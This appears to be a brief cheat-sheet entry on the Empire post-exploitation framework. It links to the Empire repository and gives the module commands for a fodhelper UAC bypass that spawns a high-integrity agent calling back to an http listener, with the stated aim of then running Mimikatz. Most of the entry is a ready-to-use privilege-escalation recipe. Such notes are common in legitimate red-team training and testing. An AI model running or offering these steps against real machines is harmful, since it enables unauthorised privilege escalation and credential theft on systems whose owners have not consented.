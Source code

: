# Empire

* [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
* [https://zayotic.com/posts/empire-cheatsheet/](https://zayotic.com/posts/empire-cheatsheet/)

## fodhelper

* if you have local admin access, this module may be able to launch a high-integrity PowerShell Empire agent through bypassing the UAC (which you need to run Mimikatz, etc...)

```
# load the Empire module
usemodule privesc/bypassuac_fodhelper

# display info
info

# setup a listener
set Listener http

# run the module
execute
```
